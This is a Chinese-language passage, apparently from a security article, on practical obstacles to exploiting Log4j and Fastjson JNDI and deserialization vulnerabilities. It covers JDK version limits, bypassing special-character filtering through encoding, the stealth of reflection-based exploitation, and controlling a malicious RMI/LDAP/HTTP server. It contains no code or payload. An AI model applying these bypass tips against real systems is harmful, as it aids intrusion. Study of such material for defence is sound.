   - JDK版本：JDK 8u121+对RMI/LDAP的信任机制做了增强，默认禁止加载远程代码，需利用低版本JDK或特殊绕过手段。  
   - 组件版本：Log4j 2.15.0+、Fastjson 1.2.83+已修复相关漏洞，需确认目标使用的是存在漏洞的旧版本。

2. **特殊字符处理**  
   目标服务器（如Tomcat）可能限制URL中的特殊字符（`{`、`}`等），导致Payload被拦截，需通过修改服务器配置或编码转换（如URL编码）绕过。

3. **反射与反序列化的隐蔽性**  
   漏洞利用依赖Java反射机制（如Fastjson调用类的构造方法、setter方法），代码层面无明显恶意调用，难以通过简单审计发现，需结合静态分析工具或沙箱检测。

4. **攻击链完整性**  
   需同时控制恶意服务器（RMI/LDAP/HTTP）、构造正确的Payload、确保目标能访问恶意服务器，任何一环失败都会导致攻击失效，实战中需解决网络连通性、防火墙限制等问题。